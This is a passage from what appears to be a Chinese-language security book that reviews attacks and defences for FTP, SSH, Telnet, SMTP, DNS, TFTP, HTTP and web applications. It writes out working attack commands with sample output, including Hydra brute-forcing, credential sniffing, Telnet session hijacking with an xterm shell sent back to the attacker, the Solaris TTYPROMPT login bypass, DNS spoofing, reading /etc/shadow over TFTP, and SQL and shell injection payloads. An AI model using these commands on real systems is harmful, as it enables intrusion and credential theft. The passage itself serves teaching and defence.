在这个例子中，Amap 成功发现主机 *intranet.somecompanysanexample.com* 在 9934 端口上运行 HTTPS。这是一个有用的信息，因为 HTTPS 的标准保留端口是 443。

### 屏蔽并停止不必要的服务

某些服务被配置为接受来自任何源 IP 地址的连接。例如，电子商务组织的 HTTP 服务器必须接受来自任何 IP 地址的连接，以便允许所有地点的远程用户查看该组织的网站。在这种情况下，组织无法隐藏其运行 HTTP 服务器的事实。

然而，根据组织的具体需求和网络架构，某些服务可能仅期望来自授权 IP 地址的连接。在这种情况下，应实施防火墙规则，以确保来自未授权 IP 地址的连接被屏蔽。此外，必须关闭不必要的服务或通过防火墙规则将其屏蔽。这将防止未授权远程主机利用或识别那些本不应被访问的服务。

### FTP (文件传输协议): 21 (TCP)

FTP 是一种用于在主机之间传输文件的协议。

**暴力破解（Brute-Forcing）** 可以使用 Hydra 对 FTP 账户进行暴力破解。

#### 暴力破解 FTP

以下是使用 Hydra 暴力破解 FTP 账户的示例：

```
[bash]$ hydra -L usernames.txt -P passwords.txt
ftp.somecompanyforexample.com ftp
Hydra v2.2 (c) 2002 by van Hauser / THC - use allowed only for legal
purposes.
Hydra is starting! [parallel tasks: 4, login tries: 4 (1:2/p:2)]
[21][ftp] login: joe password: mypassword
Hydra finished.
```

#### 防止 FTP 暴力破解

请参阅“针对暴力破解攻击的常见防御措施”。

**嗅探（Sniffing）** 由于 FTP 是明文协议，因此可以捕获在网络中传输的用户名和密码。Ettercap 等工具可以方便地捕获 FTP 数据。

#### 嗅探 FTP 认证信息

以下是使用 Ettercap 捕获网络上传输的 FTP 凭据的示例：

```
[bash]# ettercap -m -C -N

ettercap 0.6.7 (c) 2002 ALoR & NaGA

Your IP: 10.0.0.102 with MAC: 01:11:04:03:6A:A3 on Iface: eth0

Loading plugins... Done.

Resolving 1 hostnames...

* |===================================================>| 100.00 %

Press 'h' for help...

Sniffing (MAC based): ANY <--> ANY

TCP + UDP packets... (default)

Collecting passwords...

07:04:58 10.0.0.102:4814 <--> 192.168.1.1:21

ftp

USER: smith
PASS: myp455w0rd
```

### 使用安全协议

不要使用像 FTP 这样的明文协议。考虑使用 HTTPS 或 SSH 来进行安全的文件传输。

**FTP 配置错误** 由于配置问题，FTP 客户端和服务器容易受到远程攻击。接下来的段落涵盖了针对此类配置错误最常见的攻击方式。

### 反弹攻击 (Bounce Attacks)

由于 FTP 协议的设计，当 FTP 客户端使用“主动”模式请求数据传输时，FTP 服务器必须发起一个连接回到 FTP 客户端的某个端口。FTP 客户端发出一个 `PORT` 命令，将自己的 IP 地址和监听端口号作为参数。如果 FTP 客户端发出的 `PORT` 命令包含另一个主机的 IP 地址，那么 FTP 服务器将尝试连接到该主机。因此，FTP 协议的这一特性可被用于代理端口扫描。你可以通过使用 nmap 的 `-b` 选项来执行此类扫描。

一旦发出 `PORT` 命令，恶意客户端可以执行 `RETR` 命令，将包含命令的文件发送给 FTP 服务器。这将导致 FTP 服务器将给定文件的内容转储到 `PORT` 命令指定主机的给定端口上。例如，该文件可以包含 SMTP 命令，从而使恶意的 FTP 客户端用户能够通过 FTP 服务器代理发送电子邮件。

### 防止反弹攻击成功

为防止 FTP 反弹攻击，请确保采取以下预防措施：

- 配置你的 FTP 服务器，在收到 `PORT` 命令时，拒绝连接到除客户端以外的 IP 地址。大多数现代 FTP 服务器默认如此配置。
- 配置防火墙，不允许源端口为 20 的入站连接。但请注意，此规则可能会拦截合法连接。

### 连接劫持 (Connection Theft)

当 FTP 客户端在发出 `PORT` 命令及其 IP 地址和端口号后发送 `PASV`（被动）命令时，服务器开始在请求的端口上监听连接。此时，恶意用户可能会在客户端之前连接到服务器的端口。根据 FTP 客户端发出的下一个命令，恶意用户现在可能可以访问传输的数据。

如果不使用被动模式，则 FTP 会话将转为“主动”模式。在这种模式下，由客户端开始在指定端口监听。此时，攻击者可能会在 FTP 服务器之前连接到客户端。根据客户端发出的下一个命令，攻击者可能会伪装成合法服务器，并向客户端传输修改后的文件或数据。

### 防止连接劫持攻击

以下建议将有助于防止连接劫持攻击：

- 配置你的 FTP 服务器，仅允许经过身份验证的客户端 IP 地址连接到其数据端口。大多数 FTP 服务器默认如此配置。请注意，如果攻击者和合法 FTP 用户处于同一个 NAT 网关之后，由于他们的源 IP 地址相同，这可能无法防止攻击。
- 配置你的 FTP 客户端，仅接受来自其已连接的 FTP 服务器的连接。

**软件漏洞** WU-FTPD 是 Unix 和 Linux 上最广泛使用的 FTP 守护进程。不幸的是，其历史一直深受漏洞困扰，已知存在许多远程利用程序。以下是一些已知的 WU-FTPD 漏洞列表：

- **文件通配符堆损坏漏洞 (File Globbing Heap Corruption Vulnerability)** WU-FTPD 的“文件通配符（file globbing）”功能允许客户端按模式组织文件。研究发现某些模式会导致 WU-FTPD 进程中的堆损坏。该漏洞使攻击者能够通过发送精心构造的数据作为输入，在易受攻击的 WU-FTPD 服务器上执行任意命令。详见 http://online.securityfocus.com/bid/3581。
- **SITE EXEC 漏洞** 旧版本的 WU-FTPD 在其 “SITE EXEC” 功能中存在漏洞。这个

该漏洞允许客户端逃逸出其被允许执行的受限命令集。例如，如果一个 FTP 客户端向一个存在漏洞的 FTP 服务器发出以下命令，该命令将以 root 权限执行：

`SITE exec /bin/sh -c /usr/bin/id`

更多信息请参阅 http://securityfocus.com/bid/bid/2241。

- **长路径溢出漏洞**：WU-FTPD 由于对长路径名的处理不当，包含一个缓冲区溢出漏洞。更具体地说，这是由于 WU-FTPD 在使用 `realpath()` 函数（该函数随后使用了 `strcpy()` 函数）时缺乏边界检查导致的。`strcpy()` 函数用于将字符串从内存中的一个源位置复制到另一个位置，它不执行边界检查，从而可能导致缓冲区溢出。详情请参阅 http://www.eeye.com/html/Products/Retina/RTHs/FTP_Servers/630.html。

考虑使用 ProFTPD 替换 WU-FTPD。ProFTPD 遭受的远程漏洞不像 WU-FTPD 那么多。ProFTPD 可在 http://proftpd.linux.org.uk/ 获取。

## SSH (Secure Shell): 22 (TCP)

SSH 是一种用于交换数据的安全协议。它可以用于登录远程机器、远程执行命令以及传输文件。由于 SSH 内部的通信是加密的，它是 telnet、rlogin 和 FTP 等远程登录方案的理想替代品。

**暴力破解**：SSH 支持使用用户名和密码对进行身份验证。因此，可以通过 SSH 对账户进行暴力破解。

### 暴力破解 SSH

可以使用 `expect` 工具（一个与其它交互式程序进行“对话”的简单程序）编写一个简单的暴力破解脚本来破解 SSH 账户。一个此类 Expect 脚本示例可以在 http://www.secureteam.com/tools/5QP0L2K60E.html 找到。`expect` 程序可以从 http://expect.nist.gov/ 下载。

### 防止 SSH 暴力破解

请参阅“防御暴力破解攻击的通用防御措施”。

### SSH 中间人攻击

SSH 容易受到同一网段内恶意用户的中间人攻击。

### Sshmitm 和 Ettercap

可以使用 `sshmitm` 和 Ettercap 等工具来代理 SSH 连接，而 `dnsspoof` 等工具可用于伪造 DNS 查询响应，从而将受害者的 SSH 客户端重定向到代理 SSH 服务器。然而，受害者的 SSH 客户端很可能会警告用户服务器的主机密钥发生了变化，因为此时呈现的主机密钥是攻击者的代理 SSH 服务器的密钥。不幸的是，大多数最终用户并不重视这个警告并接受了呈现的密钥，导致此类攻击成功。

### 防止针对 SSH 的中间人攻击

教育用户不要接受来自远程 SSH 服务器的未知主机密钥。如果可能，在内网资源上列出这些密钥的指纹，以便用户在接受 SSH 会话之前进行验证。

**软件漏洞**：已知多个版本的 SSH 软件存在漏洞。下一段记录了一个近期的漏洞。

**Open SSH 挑战-响应缓冲区溢出**：发现 OpenSSH 的各种实现版本在挑战-响应机制上容易受到缓冲区溢出攻击。该缓冲区溢出条件存在于编译为支持 SKEY 或 BSD_AUTH 身份验证的 OpenSSH 服务器上。

此外，在 OpenSSH 的挑战-响应机制中还发现了另一个漏洞。该漏洞是由 OpenSSH 对挑战-响应身份验证期间接收到的响应处理不当引起的。使用支持交互式键盘身份验证的 PAM 模块的系统容易受到此漏洞的影响。因此，开启了以下选项的系统受到了影响：

```
PAMAuthenticationViaKbdInt
ChallengeResponseAuthentication
```

更多信息请参阅 http://open.securityfocus.com/bid/5093。

## Telnet: 23 (TCP)

Telnet 是一种用于登录远程机器的明文协议。

**暴力破解**：可以使用许多公开可用的工具（如 Hydra）来暴力破解 FTP 账户。

### 暴力破解 Telnet

Hydra 可用于暴力破解 telnet：

```
[bash]$ hydra -L usernames.txt -P passwords.txt
telnet.somecompanyanyexample.com telnet
Hydra v2.2 (c) 2002 by van Hauser / THC - use allowed only for
legal purposes.
Hydra is starting! [parallel tasks: 4, login tries: 9 (1:3/p:3)]
[23] [telnet] login: jill  password: i10v3jack
Hydra finished.
```

### 防止 Telnet 暴力破解

请参阅“防御暴力破解攻击的通用防御措施”。

**TCP 劫持**：在 telnet 用户成功登录后，同一网段上的另一个用户可以使用 Hunt 等 TCP 劫持工具来劫持该会话。

### 劫持 Telnet 会话

假设一个 IP 地址为 192.168.1.1 的主机上的恶意用户与 192.168.1.2 的用户处于同一网段。如果 192.168.1.2 的用户已建立到 10.0.0.1 的 telnet 连接，那么 192.168.1.1 的恶意用户可以使用 Hunt 劫持它：

```
[bash]# hunt -i eth0
/*
 *	 hunt 1.5
 *	 multipurpose connection intruder / sniffer for Linux
 *	 (c) 2000-2000 by kra
*/
starting hunt
--- Main Menu --- rcvpkt 0, free/alloc 63/64 -----
1/w/r) list/watch/reset connections
u)  host up tests
a)  arp/simple hijack (avoids ack storm if arp used)
s)  simple hijack
d)  daemons rst/arp/sniff/mac
o)  options
x)  exit
*> s
0) 192.168.1.2 [52323]      --> 10.0.0.1 [23]

choose conn> 0
dump connection y/n [n]> n
Enter the command string you wish executed or [cr]> whoami
whoami
jack
Enter the command string you wish executed or [cr]> 
```

在这种情况下，恶意用户在劫持受害者的 telnet 会话后运行了 `whoami` 命令。如上所示，命令执行成功，且其输出显示了受害者的用户名 "jack"。同样，恶意用户也可以发出如下命令：

```
xterm -display 192.168.1.1:0 &
```

这将把一个由受害者用户 "jack" 拥有的 xterm shell 发回给恶意用户。当然，恶意用户必须在自己的主机上运行如下命令，以便允许在受害者主机上执行的 xterm 实例显示在其 X 服务器上：

```
xhost +192.168.1.2
```

### 使用 SSH

禁用 telnet，改用 SSH（版本 2）等安全替代方案。

**嗅探**：因为 telnet 是明文协议，因此可以通过嗅探在网络上传输的用户名和密码。许多工具可以方便地捕获 telnet 数据和密码。

### 嗅探 Telnet 身份验证

Ettercap 可用于嗅探 telnet 身份验证期间在网络上传输的用户名和密码：

```
[bash]# ettercap -m -C -N

ettercap 0.6.7 (c) 2002 AL0R & NaGA

Your IP: 10.0.0.102 with MAC: 01:11:04:03:6A:A3 on Iface: eth0

Loading plugins... Done.

Resolving 1 hostnames...

* |===================================================>| 100.00 %

Press 'h' for help...

Sniffing (MAC based): ANY <--> ANY

TCP + UDP packets... (default)

Collecting passwords...

07:04:58 10.0.0.102:4814 <--> 192.168.1.1:23		telnet

USER: john
PASS: il0veteln3t
```

### 不要使用 Telnet

不要使用像 telnet 这样的明文协议。考虑改用 SSH。

**软件漏洞**：telnet 守护进程的历史记录中包含几个可远程利用的漏洞。下一段描述了一个可能是最容易利用的漏洞。

- **Solaris in.telnetd TTYPROMPT 缓冲区溢出漏洞**：发现随 Solaris 2.6-2.8 分发的 /bin/login 版本存在一个涉及环境变量 TTYPROMPT 的漏洞。为了攻击此漏洞，攻击者需要将 TTYPROMPT 的值设置为六个字符的字符串，并在连接后在用户名之后发送 64 个 'c' 字符和字面量 \n。例如，考虑一个攻击者尝试通过以用户 bin 登录来利用此漏洞：

```
[bash]$ telnet
telnet> environ define TTYPROMPT abcdef

telnet> o telnet.somecompanyasanexample.com
Trying 192.168.1.10...
Connected to telnet.somecompanyasanexample.com.
Escape character is '^]'.

SunOS 5.6

bin c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c
c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c
Last login: Thu Dec 10 12:19:10 from 10.0.0.2
```


```
Sun Microsystems Inc.  SunOS 5.6  Generic August 1997
You have new mail.
bin@somecompanyasanexample.com$
```

详见 http://www.securiteum.com/unixfocus/6R0050K5PC.html。

## SMTP (简单邮件传输协议): 25 (TCP)

SMTP 是一种用于在互联网上传输电子邮件消息的协议。

**嗅探 (Sniffing)** 由于 SMTP 是一种明文协议，因此可以捕获在网络上传输的 SMTP 数据。

### 嗅探 SMTP 流量

`mailsnarf` 程序（Dsniff 软件包的一部分）可用于捕获网络上的 SMTP 数据。由于 `mailsnarf` 监听网络上的 SMTP 数据，因此必须在与受害者处于同一网络分段的机器上运行。

```
[bash]# mailsnarf
Kernel filter, protocol ALL, raw packet socket
mailsnarf: listening on eth0 [ ]
From joe@somecompanyasanexample.com Tue Feb  4 15:24:57 2003
Received: from localhost (joe@localhost)
    by mail.somecompanyasanexample.com (8.11.6/8.11.6) with
ESMTP id h14Noun23205
    for <smith@someothercompany.org>; Tue, 4 Feb 2003 15:24:56 -0800
Date: Tue, 4 Feb 2003 15:24:56 -0800 (PST)
From: Joe User joe@somecompanyasanexample.com.com
X-X-Sender: joe@localhost.localdomain
To: smith@someothercompany.org.com
Subject: RE: Your email
Message-ID: Pine.LX.44.04.032014523410.231903-100000@localhost.localdomain
MIME-Version: 1.0
Content-Type: TEXT/PLAIN; charset=US-ASCII

Hello,

Thanks for your email. The password for your FTP account is 3Rdd!3xZ3.
Yes I know it is hard to remember, but its for your own security.

Thanks,
Joe.
```

### 加密电子邮件

GNU Privacy Guard 工具集可用于方便地加密电子邮件。鼓励用户对包含敏感信息的电子邮件进行加密。访问 http://www.gnupg.org/ 了解有关 GNU Privacy Guard 的更多信息。

**软件漏洞** Sendmail 是互联网上最流行的 MTA（邮件传输代理）。众所周知，Sendmail 容易受到许多可远程利用的漏洞攻击。

- **Sendmail 标头处理缓冲区溢出漏洞** 该漏洞是由 Sendmail 标头解析组件中的缓冲区溢出条件引起的。更具体地说，Sendmail 的 `crackaddr (char *addr)` 函数无法正确处理邮件标头中包含“From”地址字段字符串中的 `<` 和 `>` 字符。详见 http://www.cert.org/advisories/CA-2003-07.html 和 http://securityfocus.com/gbid/6991。

- **Sendmail MIME 漏洞** Sendmail 8.8.3 版本引入了一个新漏洞，该漏洞是由在对电子邮件消息执行 MIME 转换时边界检查不当引起的。攻击者可以通过发送特制的邮件使 Sendmail 进程覆盖其内部堆栈空间，从而利用此漏洞在 Sendmail 服务器上运行任意命令。详见 http://online.securityfocus.com/gbid/685。

- **Sendmail HELO 缓冲区溢出** 旧版本 Sendmail 中的一个缓冲区溢出导致在将长字符串作为 HELO 命令参数发送时发生崩溃。攻击者可以远程利用此漏洞在 Sendmail 服务器上运行任意命令。更多信息可见 http://www.eeye.com/html/Products/Retina/RTHs/Mail_Servers/141.html。

- **Sendmail DNS 映射 TXT 记录缓冲区溢出漏洞** 在 Sendmail 代码的 DNS 处理中发现了一个缓冲区溢出漏洞。该漏洞是由对名称服务器返回数据的边界检查不当引起的。由于此漏洞会导致缓冲区溢出，攻击者可以通过使恶意名称服务器返回任意长度的响应，从而利用此漏洞在 Sendmail 服务器上运行命令。更多信息可见 http://online.securityfocus.com/bid/5122。

## DNS (域名系统): 53 (TCP 和 UDP)

DNS 是一种用于在域名和 IP 地址之间进行转换的协议。

**欺骗 (Spoofing)** 与 TCP 不同，UDP 不是面向连接的协议。这使得欺骗 UDP 流量变得非常容易。当 DNS 客户端查询 DNS 服务器时，DNS 服务器通过发送一个源端口为 53 的 UDP 数据包来响应查询。然而，位于同一网络分段或在通往 DNS 服务器路径上的恶意用户可以发送一个源 IP 地址为 DNS 服务器的响应给客户端；如果恶意用户的响应在真实 DNS 服务器的响应之前被客户端接收，该恶意响应将被接受。由于恶意用户可以向客户端伪造 DNS 响应，他/她可能会诱导客户端连接到其主机而非预期的目标。

### 伪造 DNS 响应

随 Dsniff 一起分发的 `dnsspoof` 程序是一个方便伪造 DNS 查询的工具。例如，假设攻击者已控制一个 IP 地址为 10.0.0.1 的网络网关。假设 somecompanyasanexample.com 的真实 IP 地址为 10.1.1.2。攻击者现在可以运行 `dnsspoof`，使其对所有关于 somecompanyasanexample.com 的 DNS 查询响应 192.168.1.1（其本机的 IP 地址）。

```
[gateway]# dnsspoof -i eth0 -f /etc/dnssniff.txt
Kernel filter, protocol ALL, raw packet socket
dnsspoof: listening on eth1 [udp dst port 53 and not src 10.0.0.1]
```

攻击者需要确保 `/etc/dnssniff.txt` 的内容包含以下内容：

```
192.168.1.1 somecompanyasanexample.com
```

现在，为了识别入侵者，如果受害者对 somecompanyasanexample.com 执行 DNS 查询，他/她将被指向黑客机器的 IP 地址 192.168.1.1（而非 10.1.1.2）：

```
[bash]$ host somecompanyasanexample.com
somecompanyasanexample.com has address 192.168.1.1
```

### DNSSEC

考虑使用 DNSSEC (DNS Security)，它是 DNS 的一个扩展，提供端到端的真实性验证。有关 DNSSEC 的更多信息，请参阅 http://www.dnssec.net/。

**软件漏洞** BIND (Berkeley Internet Name Domain) 是互联网上最广泛使用的 DNS 服务器。下一段记录了一个众所周知的 BIND 漏洞。

- **BIND NXT 溢出和 DOS 漏洞** 该漏洞是由 BIND 在处理 NXT 记录的输入验证时失败引起的。通过强制易受攻击的 DNS 服务器获取特制的恶意 NXT 记录，可以远程利用此漏洞。其他 DOS（拒绝服务）漏洞也在位于 `http://online.securityfocus.com/bid/788` 的 BIND 咨询公告中公布。

考虑使用 `djbdns` 替代 BIND。`djbdns` 程序可在 `http://cr.yp.to/djbdns.html` 获取。

## TFTP (简单文件传输协议): 69 (UDP)

TFTP 是一种基于 UDP 的用于传输文件的协议。它缺乏大多数功能，如身份验证和目录列表。TFTP 仅支持从远程服务器读取文件以及向远程服务器写入文件。

**嗅探 (Sniffing)** 由于 TFTP 是明文协议，因此可以嗅探传输的数据。

### 嗅探 TFTP 数据

假设用户正在从远程主机 TFTP 传输 /etc/passwd 文件。与该用户在同一分段的恶意用户可以通过运行配置为显示 UDP 流量的 Ettercap 来嗅探受害者的数据：

```
[shell]# ettercap -N -m -t udp

ettercap 0.6.7 (c) 2002 ALoR & NaGA

Your IP: 192.168.1.1 with MAC: 00:01:1E:34:AB:36 on Iface: eth0

Loading plugins... Done.

Resolving 1 hostnames...

* |===================================================>| 100.00 %

Press 'h' for help...

Sniffing (MAC based): ANY <--> ANY

UDP packets only...
```

```
22:49:55 192.168.1.1:33569 --> 10.0.0.1:69 proto: U

..hello./etc/passwd.

22:23:54 10.0.0.1:2563 --> 192.168.1.1:33569 proto: U

....root:x:0:0:root:/root:/bin/bash.
bin:x:1:1:bin:/bin::.
daemon:x:2:2:daemon:/sbin::.
adm:x:3:4:adm:/var/adm::.
lp:x:4:7:lp:/var/spool/lpd::.
sync:x:5:0:sync:/sbin:/bin/sync.
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown.
halt:x:7:0:halt:/sbin:/sbin/halt.
mail:x:8:12:mail:/var/spool/mail::.
news:x:9:13:news:/var/spool/news::.
uucp:x:10:14:uucp:/var/spool/uucp::.
operator:x:11:0:operator:/root::.
games:x:12:100:games:/usr/games::.
gopher:x:13:30:gopher:/usr/lib/gopher-data::.
ftp:x:14:50:FTPuser:/home/ftp::.
```

### 使用安全协议

不要使用 TFTP 等明文协议。考虑使用 HTTPS 或 SSH 来进行安全的文件传输。

**TFTP 配置错误** TFTP 服务器经常被错误地配置为提供 / (根) 目录中的文件。这种配置可能会允许远程用户获取 /etc/passwd 等文件。

### 获取系统关键文件

如果远程 TFTP 服务器被错误地配置为提供 / (根) 目录中的文件，可以使用以下 TFTP 命令尝试获取 /etc/shadow 和 /etc/passwd 等文件：

```
[bash]$ tftp 10.0.0.1
tftp> get /etc/shadow
```

### 设置 TFTP 根目录

大多数最新的 TFTP 服务器默认配置为仅提供 /tftpboot 目录中的文件。可以使用 `-s` 开关来设置或更改此目录。详见 `man tftpd`。


## HTTP (超文本传输协议): 80 (TCP)

HTTP 是一种用于分发各种超媒体的无状态协议。它最广泛地用于提供 WWW (万维网) 内容。

> 想要手动检查所有可能的 HTTP 配置错误和漏洞是不可能的。诸如 Nikto 等自动化工具（可从 http://www.cirt.net/code/nikto.shtml 获取）在 Web 服务器和应用程序评估方面表现出色，应被用于检查配置错误和漏洞。

**暴力破解 (Brute-Forcing)** 可以使用 Hydra 等工具对 HTTP 认证进行暴力破解。

### 暴力破解 HTTP 认证

Hydra 是一个支持 HTTP 的暴力破解工具，可用于破解受密码保护的 HTTP 资源。以下是如何使用 Hydra 暴力破解 HTTP 认证的示例：

```
hydra -L usernames.txt -P passwords.txt
www.somecompanyasanexample.com http
```

### 防止 HTTP 暴力破解

请参阅“针对暴力破解攻击的通用防御措施”。

**嗅探 (Sniffing)** 由于 HTTP 是明文协议，网络分段中的恶意用户可以监视另一个用户的 HTTP 流量。

### 嗅探 URL

随 Dsniff 一起分发的 urlsnarf 程序可用于嗅探用户在网络上发送的 HTTP 请求：

```
[bash]# urlsnarf
Kernel filter, protocol ALL, raw packet socket
urlsnarf: listening on eth0 [tcp port 80 or port 8080 or port 3128]
10.0.0.1 - [19/Feb/2003:21:50:16 -0800] "GET http://www.mozilla.org/start/ HTTP/1.1" - "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.3a) Gecko/20021212".
10.0.0.1 - [19/Feb/2003:21:50:42 -0800] "GET http://cirt.net/ HTTP/1.1" - "- "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.3a) Gecko/20021212"
10.0.0.1 - [19/Feb/2003:21:50:42 -0800] "GET http://cirt.net/images/bg.gif HTTP/1.1" - "http://cirt.net/" Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.3a) Gecko/20021212"
10.0.0.1 -- [19/Feb/2003:21:50:42 -0800] "GET http://cirt.net/images/cirt_headline.gif HTTP/1.1" - "http://cirt.net/" "Mozilla/5.0 (U; Linux; U; Linux 1686; en-US; rv:1.3a) Gecko/20021212"
10.0.0.1 -- [19/Feb/2003:21:50:42 -0800] "GET http://cirt.net/images/pix.gif HTTP/1.1" - "http://cirt.net/" "Mozilla/5.0 (X11; U; Linux 1686; en-US; rv:1.3a) Gecko/20021212"
```

同样随 Dsniff 分发的 webspy 程序是另一个优秀的 HTTP 嗅探工具。一旦它检测到网络上的 HTTP 请求，就会将其发送到运行中的 Netscape 进程。这使得网络上的恶意用户能够实时监视受害者的 HTTP 会话。

### 嗅探 HTTP 数据

Ettercap 可用于嗅探网络上发送的 HTTP 流量：

```
[bash]# ettercap -T tcp -N -s ANY:ANY0

ettercap 0.6.7 (c) 2002 ALoR & NaGa

Your IP: 10.0.0.1 with MAC: 00:01:01:13:4A:B2 on Iface: eth0

Loading plugins... Done.

Resolving 1 hostnames...

* |======================================================| 100.00 %

Press 'h' for help...

Sniffing (IP based): ANY:80 <--> ANY:0

TCP packets only...

22:15:33 10.0.0.1:37725 --> 192.168.1.1:80 proto: T

GET / HTTP/1.0.
Host: mozilla.org.
Accept: text/html, text/plain, application/vnd.sun.xml.writer,
application/vnd.sun.xml.writer.global, application/
vnd.stardivision.writer, application/vnd.stardivision.writer-global,
application/x-starwriter, application/vnd.sun.xml.writer.template.
Accept: application/vnd.sun.xml.calc, application/
vnd.stardivision.calc, application/x-starcalc, application/
vnd.sun.xml.calc.template, application/vnd.sun.xml.impress,
application/vnd.stardivision.impress, application/
vnd.stardivision.impress-packed.
Accept: application/x-starimpress, application/
sun-sun.xml.impress.template, application/vnd.sun.xml.draw,
application/vnd.sun.stardivision.draw, application/x-stardraw,
application/vnd.sun.xml.draw.template, application/vnd.sun.xml.math.
Accept: application/vnd.stardivision.math, application/x-starmath,
audio/mod, image/*, video/mpeg, video/*, application/pgp, application/
pdf, application/postscript, message/partial, message/external-body,
x-be2, application/andrew-inset, text/richtext.
Accept: text/enriched, x-sun-attachment, audio-file, postscript-file,
default-mail, sun-deskset-message, application/x-metamail-patch,
application/msword, audio/x-pn-realaudio, audio/vnd.rn-realaudio,
application/smil, text/vnd.rn-realtext.
Accept: application/x-shockwave-flash2-preview, application/sdp,
application/x-sdp, application/vnd.rn-realmedia, audio/wav, audio/
x-wav, audio/x-pn-wav, audio/x-pn-windows-ac
22:15:33 10.0.0.1:37725 --> 192.168.1.1:80 proto: T

m, audio/basic, audio/x-pn-au, audio/aiff, audio/x-aiff, audio/x-pn-ai
ff.
Accept: text/sgml, */*;q=0.01.
Accept-Encoding: gzip, compress.
Accept-Language: en.
User-Agent: Lynx/2.8.5dev.7 libwww-FM/1.14 SSL-MM/1.4.1 OpenSSL/0.9.6b

22:15:33 192.168.1.1:80 --> 10.0.0.1:37725 proto: T

HTTP/1.1 200 OK.
Date: Thu, 20 Feb 2003 06:21:30 GMT.
Content-type: text/html.
Last-modified: Wed, 12 Feb 2003 13:13:05 GMT.
Content-length: 17831.
Accept-ranges: bytes.
Connection: close.

22:15:33 192.168.1.1:80 --> 10.0.0.1:37725 proto: T

<html>
<HEAD>
<TITLE>Welcome to somecompanysanexample.com's Web-Site!</TITLE>
</HEAD>
<BODY>
<h1>Welcome!</h1>
</BODY>
</html
```

### 嗅探 HTTP 认证

受限的 HTTP 路径需要认证。由于 HTTP 是明文，这些信息可以通过 Ettercap 嗅探到：

```
[bash]$ ettercap -m -C -N

ettercap 0.6.7 (c) 2002 AL0R & NaGA

Your IP: 192.168.1.1 with MAC: 00:00:02:13:C1:13 on Iface: eth0

Loading plugins... Done.

Resolving 1 hostnames...

* |=========================================================>| 100.00 %

Press 'h' for help...

Sniffing (MAC based): ANY <--> ANY

TCP + UDP packets... (default)

Collecting passwords...

23:54:24 192.168.1.1:36304 <--> 0.0.0.1:80			http

USER: root
PASS: myApach3B0X!@#

http://10.0.0.1/intranet/private/administration
```

### 使用 HTTPS

在传输关键和私密数据时，请使用 HTTPS 代替 HTTP。

**HTTP 配置错误** Web 服务器经常出现配置错误，或者以默认配置部署在生产网络中。接下来的段落描述了几个经常被利用的配置错误。

### 自动索引 (Automatic Indexing)

当启用自动索引时，如果在目录下不存在索引文件（如 index.html），Web 服务器将显示该目录的内容。

Web 内容作者经常误将包含敏感信息的文件放在 Web 根目录下，如果目录内容被显示，未经身份验证的用户可以轻松查看这些文件。

### 关闭索引

Apache 用户可以在 httpd.conf 中使用 `IndexIgnore` 指令来指示服务器关闭索引。

### 获取源代码、配置、统计数据和密码资源

许多 HTTP 服务器配置错误导致其公开关键文件。以下是一些示例：

- CGI 应用程序的源代码可能包含数据库的用户名和密码。许多 Web 应用程序使用后缀为 .inc 或 .conf 的配置文件。此类文件可能包含系统和密码信息，且经常被配置错误的 Web 服务器提供。
- Web 服务器统计程序将结果输出到如 /stats 等目录中，且这些目录经常被放置在 Web 根目录下。
- Apache 允许用户通过在目录中放置名为 .htaccess 的文件来对目录进行密码保护。.htaccess 文件包含关于密码文件（通常称为 .htpasswd）位置的信息，而 .htpasswd 包含允许账户的密码哈希。通常，Apache 没有配置为限制 .htaccess 和 .htpasswd 文件的访问。一旦入侵者获得了 .htpasswd 文件，就可以使用 john 等暴力破解工具将其破解。

### 不要提供关键资源

配置您的 Web 服务器，使其不提供敏感文件。如果使用 Apache，请编辑 httpd.conf 文件以拒绝提供具有特定后缀的文件。例如，以下指令禁止提供以 .ht 开头的文件：

```
<Files "^\.ht">
    Order allow,deny
    Deny from all
</Files>
```


> `AccessFileName` 指令可用于 httpd.conf 中，以指定除 .htaccess 以外的文件名。如果这样操作，你应该确保指示 Apache 提供相应的访问文件。

## Web 应用程序漏洞

提及所有可能的 Web 应用程序漏洞超出了本书的范围。然而，接下来的攻击案例为最常见的漏洞提供了很好的示例。

### 利用不恰当的输入验证

可以通过提交 HTML 表单向 Web 应用程序输入数值。在应用程序使用这些数值之前，应当检查其中是否包含非法字符。设计糟糕的 Web 应用程序未能检查提交的参数，导致其容易受到输入验证攻击。

以在自动化基于 Web 的新闻应用程序 PHPNuke 中发现的漏洞为例。PHPNuke 未能对用于构建 SQL 查询的用户提供输入进行清理。这使得恶意用户能够对 PHPNuke 应用程序所使用的数据库执行未经授权的查询。更多相关信息可见 http://www.securityfocus.com/gbd/6887。

利用 Web 应用程序中的输入验证漏洞来执行未经授权的 SQL 查询的行为被称为 *SQL 注入*。考虑在 Web 应用程序中执行的以下 SQL 代码：

```sql
SELECT SSN FROM users WHERE username='${INPUT[id]}';
```

id 参数通过用户提交的 HTML 表单传递给应用程序。如果没有进行输入验证，恶意用户可能会提交 id 值为以下内容的 HTML 表单：

```sql
blah' OR 'x'='x
```

这会导致原始 SQL 查询在数据库上执行以下内容：

```sql
SELECT SSN FROM users WHERE username='blah' OR 'x'='x';
```

此查询将返回 “users” 表中所有账户的 SSN 值！

许多设计糟糕的 Web 应用程序未能对传递给 `system()` 函数调用的参数进行输入验证。大多数编程语言都包含 `system()` 函数调用来执行外部程序：

```c
system("/bin/echo \$i");
```

如果恶意用户输入一个类似以下的值作为 $i$ 的值：

```bash
`cat /etc/passwd`
```

那么之前的系统调用将在 Web 服务器上执行以下内容：

```bash
/bin/echo `cat /etc/passwd`
```

从而导致 /etc/passwd 文件被显示给恶意用户。

### 防止输入验证漏洞

审计 Web 应用程序，确保对所有用户输入参数执行输入验证。需要留意的一些字符包括：

```
` ; . / @ & < > ~ - < > " ( ) [ ] < > * ! '
```

### 会话劫持

由于 HTTP 不是一个有状态协议，会话管理必须由 Web 应用程序提供。在大多数情况下，会话是通过使用 cookie 来维护的。Cookie 是由 Web 服务器请求存储在终端用户硬盘上的一段信息。

由于 cookie 存储在终端用户的磁盘上，因此不能也不应该完全信任它。例如，一个设计糟糕的应用程序可能会在用户 joe 成功认证后请求存储以下 cookie 值：

```
lang=en-us; user=joe; time=10:10 EST;
```

